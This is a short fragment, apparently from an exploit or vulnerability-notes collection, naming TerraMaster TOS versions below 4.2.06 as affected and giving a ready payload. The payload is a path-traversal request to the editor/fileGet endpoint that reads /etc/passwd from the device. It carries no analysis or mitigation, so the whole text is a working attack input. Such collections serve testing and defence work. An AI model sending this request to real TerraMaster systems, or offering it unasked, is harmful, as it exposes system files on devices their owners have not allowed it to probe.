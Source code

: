 漏洞影響
--------

TerraMaster TOS \< 4.2.06

Payload
-------

    /tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd